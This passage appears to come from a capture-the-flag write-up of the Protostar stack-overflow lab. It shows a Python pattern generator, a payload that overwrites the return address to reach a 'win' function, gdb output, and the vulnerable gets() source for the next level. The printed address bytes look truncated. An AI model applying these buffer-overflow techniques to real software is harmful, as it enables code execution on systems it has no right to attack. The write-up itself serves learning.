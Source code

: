 The base pointer was overwritten in the info. After continuing the eip changed to the set of 4 characters right after those of the base pointer because base pointer is also passed on the stack after the return address is passed. Therefore 54 was the value that got written in the eip which corresponds to the character 'T'. Therefore if the T's are replaced by the address of the 'win' function the execution will be transferred to that function. Using python again to print till s and then printing the address after checking from `x win` into the same file.

```
user@protostar:~$ cat > hello.py
import sys
for i in "ABCDEFGHIJKLMNOPQRS":
        sys.stdout.write(i+i+i+i)
user@protostar:~$ python hello.py > hello
user@protostar:~$ cat hello
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSuser@protostar:~$ python -c 'print "\\\\xf4\\\\x83\\\\x04\\\\x0"' | cat >> hello
```

After this the file hello will have the data required to be overflowed in the stack. After this, running by redirecting to gdb,

```
(gdb) r < ~/hello
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack4 < ~/hello
code flow successfully changed
Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

The overflow still is there because the values after the eip have also been rearranged or overwritten in the stack. Therefore, another segfault is received but the function 'win' is successfully executed seeing as the code flow message was printed. Hence function executed using overflow.

---

## Stack 5

The program has the following code -

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

The main objective seems to be redirecting the return of the program to get a shellcode. Using gdb to disassemble, and giving a breakpoint at the return statement to check the contents of the eip and stack.
